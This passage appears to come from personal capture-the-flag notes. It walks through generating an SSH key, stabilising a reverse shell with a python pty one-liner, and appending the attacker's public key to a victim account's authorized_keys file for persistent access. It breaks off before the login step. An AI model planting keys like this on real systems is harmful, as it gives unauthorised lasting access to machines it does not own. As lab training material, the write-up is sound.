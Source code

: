 ## SSH KeyGen

We can use [SSH-KeyGen](../../3%20-%20Tags/Hacking%20Tools/SSH-KeyGen.md) to generate a key (skip everything with enter and go) :

```
─$ ssh-keygen            
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/hax/.ssh/id_ed25519): 
Enter passphrase for "/home/hax/.ssh/id_ed25519" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/hax/.ssh/id_ed25519
Your public key has been saved in /home/hax/.ssh/id_ed25519.pub
The key fingerprint is:
SHA256:hEr0UZgozVxEGCxB7tgK2SrIhLr1f8N+NCFlFAGprfU hax@HaxonKali
The key's randomart image is:
+--[ED25519 256]--+
| .o*oB=+o++o     |
| .o.B.oo. o      |
|  .o. oo.o       |
|.* . ...+ .      |
|=.+ .  oSo .     |
|*o    .   E      |
|*..    . . .     |
|.o .    + .      |
|.   ...o.o       |
+----[SHA256]-----+
```

Now we can search for the key and copy it to our working dir :

```
└─$ cat /home/user/.ssh/id_ed25519.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB5CPIfXujh1QKKXqanmQiO5bsibAXPNnnBj8Dx4yXTj user@kali

```

## Stabilize the shell

For the [Shell Stabilization](../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) first we need to execute `export TERM=xterm` then `python3 -c 'import pty;pty.spawn("/bin/bash")'` then ctrl+z and `stty raw -echo;fg` and reset + enter

Now we echo our public key into the authorised :

```
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB5CPIfXujh1QKKXqanmQiO5bsibAXPNnnBj8Dx4yXTj user@Kali
"  >>  autorized_keys
```

## SSH

Now we can access comte [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) and cat the flag, ssh will automatically use our key :
